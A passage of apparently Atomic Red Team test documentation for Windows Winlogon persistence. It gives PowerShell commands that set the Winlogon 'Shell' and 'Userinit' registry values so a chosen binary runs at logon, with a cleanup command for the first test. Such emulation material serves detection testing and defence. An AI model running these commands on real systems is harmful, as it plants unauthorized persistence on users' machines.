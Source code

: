 **auto_generated_guid:** bf9f9d65-ee4d-4c3e-a843-777d04f19c38





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Shell" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell
PowerShell code to set Winlogon userinit key to execute a binary at logon along with userinit.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** fb32c935-ee2e-454b-8fa3-1c46b42e8dfb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force
```
